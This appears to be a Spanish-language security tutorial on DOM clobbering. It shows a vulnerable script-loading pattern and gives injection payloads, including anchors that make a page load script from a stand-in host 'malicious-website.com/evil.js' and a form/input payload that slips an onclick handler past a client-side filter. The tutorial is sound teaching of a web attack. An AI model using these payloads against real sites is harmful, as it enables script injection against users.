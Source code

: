 ```yaml
---
title: DOM Clobbering
date: 2023-04-18
categories: [Vulnerabilities, Web]
tags: [dom, vulnerabilities, code_injection, web]
comments: false
---
```


La destrucción de DOM es una técnica avanzada en la que se inyecta HTML en la página para manipular el DOM y, en última instancia, cambiar el comportamiento de JS en el sitio web. La destrucción de DOM es particularmente útil en los casos en que XSS no es posible, pero puede controlar algo de HTML en una página donde los atributos "id" o "name" están incluidos en la lista blanca por el filtro HTML. La forma más común de DOM Clobbering utiliza un elemento de anclaje para sobrescribir una variable global, que luego es utilizada por la aplicación web de una manera no segura, como generar una URL de secuencia de comandos dinámica.

El término clobbing proviene del hecho de que se está "golpeando” una variable global o propiedad de un objeto y sobrescribiendo con un nodo DOM o una colección HTML en su lugar. Por ejemplo, puede usar objetos DOM para sobrescribir otros objetos de JS y explotar nombres no seguros, como "submit", para interferir con la función real "submit()" de un formulario.

## Como explotar las vulnerabilidades de DOM-Clobbering
Un patrón común utilizado por los desarrolladores de JS es:
```
var someObject = window.someObject || {};
``` 
Si puede controlar parte del HTML en la página, puede eliminar la referencia "someObject" con un nodo DOM, como un ancla. Considerando el siguiente código:
```
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
Para explotar este código vulnerable, podría inyectar el siguiente código HTML para eliminar la referencia "someObject" con un elemento anclaje:
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
Como los dos anclajes usan la misma "ID", el DOM los agrupa en una colección DOM. El vector de destrucción de DOM luego sobrescribe la referencia "someObject" con esta colección de DOM. Se utiliza el atributo "name" en el último elemento ancla para eliminar la propiedad "url" del objeto "someObject", que apunta a un script externo.

Otra técnica común es usar un elemento "form" junto con otro elemento como "input" para destruir las propiedades del DOM. Por ejemplo, eliminar la propiedad "attributes" le permite omitir los filtros del lado del cliente que la usan en su lógica. Aunque el filtro enumera las propiedades "attributes", en realidad no elimina ningún atributo porque la propiedad ha sido golpeada con un nodo DOM. Como resultado, podrá inyectar atributos maliciosos que normalmente se filtraron. Por ejemplo, considere la siguiente inyección:
```
<form onclick=alert(1)><input id=attributes>Click me
```
En este caso, el filtro del lado del cliente atravesaría el DOM y encontrarás un elemento "form" en la lista blanca. Normalmente, el filtro recorrería la propiedad "attributes" del elemento "form" y eliminaría cualquier atributo de la lista negra. Sin embargo, debido a que la propiedad "attributes" ha sido golpeada con el elemento "input", el filtro recorre el elemento "input" en su lugar. Como el elemento "input" tiene una longitud indefinida, no se cumplen las condiciones para el ciclo "for" del filtro y el filtro simplemente pasa al siguiente elemento. Esto da como resultado que el evento "onclick" sea ignorado por completo por el filtro, lo que posteriormente permite llamar a la función "alert()" en el navegador.
